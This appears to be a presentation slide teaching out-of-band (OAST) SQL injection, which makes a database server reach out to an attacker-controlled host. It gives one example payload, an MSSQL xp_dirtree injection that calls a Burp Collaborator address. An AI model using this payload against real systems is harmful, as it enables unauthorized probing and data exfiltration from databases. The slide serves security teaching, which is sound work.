

# Out-of-Band (OAST) SQLi
Vulnerability that consists of triggering an out-of-band network  connection to a system that you control.
Not common
A variety of protocols can be used (ex. DNS, HTTP)
Example Payload:
';	exec	master..xp_dirtree	'//0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net/a'--